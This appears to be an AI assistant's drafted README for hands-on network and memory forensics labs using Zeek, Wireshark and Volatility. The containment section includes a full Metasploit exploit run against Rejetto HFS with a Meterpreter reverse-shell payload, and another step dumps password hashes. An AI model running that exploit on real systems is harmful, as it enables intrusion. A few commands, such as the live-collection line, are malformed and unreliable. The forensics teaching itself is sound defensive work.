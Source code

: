 Certainly! Here's a structured and detailed README.md file for your GitHub repository, including code snippets, steps, and explanations. I'll use Markdown formatting for clarity and add code snippets to demonstrate programming languages and commands used.

---

# Network and Memory Forensics: Hands-On Labs

## Overview

This repository contains detailed labs and exercises for network and memory forensics using tools like Wireshark, Zeek, and Volatility. The labs cover practical aspects of incident response, including network traffic analysis, memory dump analysis, and malware investigation.

## Table of Contents

- [Network Forensics](#network-forensics)
  - [Zeek Log Analysis](#zeek-log-analysis)
  - [Wireshark Analysis](#wireshark-analysis)
  - [File Extraction](#file-extraction)
- [Memory Forensics](#memory-forensics)
  - [Memory Dump Extraction](#memory-dump-extraction)
  - [Analyzing Memory Dumps](#analyzing-memory-dumps)
  - [Extracting Artifacts and IoCs](#extracting-artifacts-and-iocs)
- [Incident Containment and Recovery](#incident-containment-and-recovery)
- [Live Ongoing Incident Response](#live-ongoing-incident-response)
- [Contributing](#contributing)
- [License](#license)

## Network Forensics

### Zeek Log Analysis

To analyze network traffic flows with Zeek, use the following command to extract TCP connections:

```bash
zeek-cut < conn.log id.orig_h id.orig_p id.resp_p duration proto history | grep tcp
```

### Wireshark Analysis

1. **Open the PCAP file**:
   ```bash
   wireshark project1.pcap
   ```

2. **Filter TCP Handshake**:
   Use the following filter in Wireshark to isolate traffic between the source and destination IP addresses:
   ```plaintext
   ip.addr == target-source && ip.addr == target-destination
   ```

3. **Follow TCP Stream**:
   Right-click on a packet and select **Follow > TCP Stream** to view the conversation between the two IP addresses.

### File Extraction

1. **Extract HTTP Objects**:
   Navigate to **File > Export Objects > HTTP** in Wireshark to extract transferred files. Save and list the files:

   ```bash
   ls
   ```

2. **Download and Analyze Files**:
   Extract and analyze suspicious files using a Java decompiler like JD-GUI. For example, if you extracted `Exploit.jar`:

   ```bash
   java -jar jd-gui.jar Exploit.jar
   ```

## Memory Forensics

### Memory Dump Extraction

1. **Extract Memory Dump**:
   Use a tool like `mrc` to extract the memory dump:

   ```bash
   mrc --acquire memory --output suspectmachine.raw
   ```

2. **Transfer Memory Dump**:
   Transfer the memory dump to your analysis machine:

   ```bash
   ftp ip.addr
   bin
   put suspectmachine.raw
   quit
   ```

### Analyzing Memory Dumps

1. **Identify OS Profile**:
   Use `volatility` to guess the OS profile:

   ```bash
   volatility -f suspectmachine.raw imageinfo
   ```

2. **Analyze Processes**:
   List running processes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 pslist
   ```

3. **Examine Process Tree**:
   View parent-child relationships between processes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 pstree
   ```

4. **Command History**:
   Retrieve executed commands:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 cmdscan
   ```

5. **Network Connections**:
   Scan network connections:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 netscan
   ```

### Extracting Artifacts and IoCs

1. **IE History**:
   View Internet Explorer history:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 iehistory
   ```

2. **Hash Dump**:
   Dump password hashes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 hashdump
   ```

3. **Process Dump**:
   Dump specific processes:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 procdump -D /tmp -p <PID>
   ```

## Incident Containment and Recovery

1. **Monitor Active Connections**:
   Use `tcpview` to observe active connections and processes. Compare with network captures.

2. **Validate Malicious Activity**:
   Use Metasploit to test vulnerabilities and confirm exploits. Example:

   ```bash
   msfconsole
   use exploit/windows/http/rejetto_hfs_exec
   set payload windows/meterpreter/reverse_tcp
   set lhost <ip.addr>
   set rhost <ip.addr>
   set rport 8081
   exploit
   ```

3. **Clean and Validate**:
   Ensure malicious files and processes are eradicated. Validate with:

   ```bash
   volatility -f suspectmachine.raw --profile=Win7SP0x86 pstree
   ```

## Live Ongoing Incident Response

1. **Collect Live Data**:
   Capture live data and system information:

   ```bash
   filename.txt && netstat -an >> filename.txt && arp -n >> filename.txt && sc query >> filename.txt && systeminfo >> filename.txt
   ```

2. **Analyze Collected Data**:
   Use `volatility` to analyze memory dumps:

   ```bash
   volatility -f filename.raw --profile=Win2003SP0x86 pslist
   ```

   Compare with captured data for discrepancies.

## Contributing

Contributions are welcome! Please fork this repository and submit a pull request with any improvements or additions.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

### Adding the README to GitHub

1. **Create a New Repository**:
   - Go to GitHub and create a new repository.

2. **Add the README.md**:
   - On your local machine, navigate to your repository directory.
   - Create a file named `README.md` and paste the content above into this file.
   - Commit and push the changes:

     ```bash
     git add README.md
     git commit -m "Add detailed README with network and memory forensics labs"
     git push origin main
     ```

3. **Verify on GitHub**:
   - Visit your GitHub repository and ensure the README file is properly displayed with formatted sections and code snippets.

This README provides a clear, structured guide for anyone looking to understand or replicate the forensic labs. Adjust the content and commands based on your specific tools and environment as needed.
